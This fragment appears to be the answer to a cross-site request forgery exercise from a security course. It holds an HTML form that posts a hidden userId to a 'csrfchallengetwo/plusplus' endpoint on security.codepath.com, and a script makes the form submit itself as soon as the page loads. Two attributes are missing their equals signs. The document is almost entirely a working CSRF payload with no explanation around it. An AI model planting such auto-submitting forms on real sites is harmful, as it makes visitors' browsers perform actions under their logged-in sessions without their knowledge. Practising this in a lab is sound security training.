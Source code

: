 <form name="csrfForm" action="https://security.codepath.com//user/csrfchallengetwo/plusplus" method"POST">
  <input type"hidden" name="userId" value="ac1cef3bfb6eb58141e4f4a0d09485100ebb2240" />
  <input type="submit"/>
</form>
<script> document.csrfForm.submit();</script>
